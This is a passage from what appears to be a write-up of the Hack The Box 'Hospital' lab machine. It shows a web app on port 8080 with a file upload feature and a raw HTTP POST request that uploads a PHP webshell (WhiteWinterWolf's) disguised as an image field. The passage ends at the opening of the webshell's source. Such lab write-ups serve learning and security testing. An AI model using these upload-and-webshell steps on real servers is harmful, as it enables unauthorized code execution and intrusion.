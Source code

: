 
The other web page hosted on port **8080** was more interesting this page allowed us to create an account. After creating the account I saw that the only feature that was present was a file upload. 

![Hospital File upload](/assets/img/Hospital/Hospital_02.png)


### Abusing the file upload
Seeing that the login page was in PHP i tried to upload a php webshell for this example i used the shell created by [WhiteWinterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell). I sent the following request Trying to upload a php webshell.

```
POST /upload.php HTTP/1.1
Host: hospital.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------264972332940092698408409307
Content-Length: 7431
Origin: http://hospital.htb:8080
Connection: close
Referer: http://hospital.htb:8080/index.php
Cookie: PHPSESSID=24dc8cn9ieqmsmji6btnbkasei
Upgrade-Insecure-Requests: 1

-----------------------------264972332940092698408409307

Content-Disposition: form-data; name="image"; filename="Calico.php"

Content-Type: application/x-php

#<?php
/*******************************************************************************
 * Copyright 2017 WhiteWinterWolf
```